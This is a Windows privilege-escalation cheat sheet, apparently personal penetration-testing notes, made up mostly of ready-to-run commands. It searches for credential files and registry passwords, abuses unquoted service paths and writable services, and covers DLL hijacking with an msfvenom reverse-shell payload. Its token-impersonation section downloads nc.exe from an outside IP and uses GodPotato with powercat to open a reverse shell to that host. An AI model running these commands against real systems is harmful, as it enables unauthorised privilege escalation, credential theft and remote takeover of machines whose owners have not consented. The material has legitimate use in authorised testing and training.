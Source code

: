 ### System and User Enumeration

```
#User
whoami /priv
net user <username>

#System
systeminfo
ipconfig
netstat -ano
```

### Search for Information
##### Searching Folders

```
#Specific File Types
Get-ChildItem -Path C:\<folder>\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini, *bk, *backup*, -File -Recurse -ErrorAction SilentlyContinue

#All Files in Folder
Get-ChildItem -Path C:\<folder>\ -File -Recurse -ErrorAction SilentlyContinue

#Specific file name
Get-ChildItem -Path C:\ -Filter '<filename>' -File -Recurse -ErrorAction SilentlyContinue

#Keepass Database
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
##### Searching History
```
Get-History
(Get-PSReadlineOption).HistorySavePath
```
### Automation
```
winPEAs
ADPEAs
```
### Services
##### Running Services
```
#Services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

$AutoRun Services
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.StartMode -like 'Auto'}
```

##### Unquoted Service Paths
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

Get-WmiObject -Class Win32_Service | Where-Object { $_.State -eq 'Running' -and $_.PathName -notlike '*"*' } | Select-Object Name, PathName
```

##### Scheduled Tasks
```
schtasks /query /fo LIST /v
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName, TaskPath, State
```

##### Startup Apps

```
#If we can modify this directroy and add a shell. Then restart system.
 .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

##### Shutting Down System
```
#Check SeShutdownPrivilege enabled
whoami /priv  

#Shuts system down
shutdown /r /t 0
```

##### Checking Permissions
```
#Check file and folder
icacls "C:\<service.exe>"
icacls "C:\<folder>\"

#check service start / stop
net stop <service_name>
Stop-Service <service_name>
```

##### Service Configuration Writable
```
#See configuration
sc.exe qc <service_name>

#Modify Configuration
sc.exe config <service_name> <option>= <value>
```
##### DLL Hijacking
```
1. Check can service be stopped and started.
2. Copy the service executable to your host and use ProcMon to monitor what DLLs the executable tries to run.
	Filter NAME NOT FOUND
	Filter .DLL
3. Check folder or path it is searching is writable.
4. Upload malicious executable. (msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f dll -o /tools/hijackme.dll)
5. Restart the service.
```

### Kernel Exploits

```
Methodology
1. Enumerate Windows version / patch level. (systeminfo)
2. Find matching exploits. (Google, ExploitDB, GitHub)
3. Compile and run.

Tools
- Windows Exploit Suggester - wesng
- Precompiled Kernel Exploits - SecWiki
- Watson - rasta-mouse

Notes
- Be careful these can be unstable and may crash the system.
```


### Passwords

##### Registry

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

##### Saved Creds
```
cmdkey /list
run as /savecred /user:<username> <reverse_shell>
```

### Token Impersonation

##### Printer Spoofer

```
.\PrintSpoofer64.exe -i -c powershell.exe
https://github.com/itm4n/PrintSpoofer
```

##### Potato Exploits

```
#GodPotato
iwr -uri http://192.168.45.217:81/nc.exe -Outfile nc.exe
.\GodPotato-NET4.exe -cmd "C:\Windows\System32\WindowsPowerShell\v1. 0\powershell.exe"
.\GodPotato-NET4.exe -cmd "powershell -c 'powercat -c 192.168.45.217 -p 4444 -e powershell'"
```
[https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer)

Windows Server 2022

- [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
- [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)